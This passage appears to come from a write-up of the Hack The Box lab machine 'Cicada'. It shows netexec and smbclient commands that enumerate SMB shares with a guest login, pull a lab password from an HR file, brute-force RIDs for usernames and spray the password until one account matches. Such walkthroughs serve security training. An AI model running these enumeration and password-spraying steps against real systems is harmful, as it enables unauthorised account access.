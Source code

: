 ![SMB shares list](/images/HTB-Cicada/smbclient_cmd.png)

We notice different shares such as `HR` and `DEV`. We can try to login in with a guest account in order to find more information.

```
netexec smb cicada.htb -u Guest -p "" --shares
```

![SMB guest login](/images/HTB-Cicada/shares_list.png)

We can read the shares: `HR` and `IPC$` (default share).

```
smbclient //cicada.htb/HR
```

![HR share content](/images/HTB-Cicada/HR_share.png)

We find a file called `Notice from HR.txt` and download it. The file contains a password: `Cicada$M6Corpb*@Lp#nZp!8`.

![Password found in HR share](/images/HTB-Cicada/notice_from_HR.png)

We now need a username, we can hunt some with netexec.

```
netexec smb cicada.htb -u guest -p '' --rid-brute
```

We extract the usernames and end up with the following list.

![SMB accounts](/images/HTB-Cicada/accounts.png)

```
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

![SMB usernames list](/images/HTB-Cicada/usernames.png)

We run the password against our username list, and find a match for `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`.

```
netexec smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

![SMB credentials match](/images/HTB-Cicada/creds_match.png)
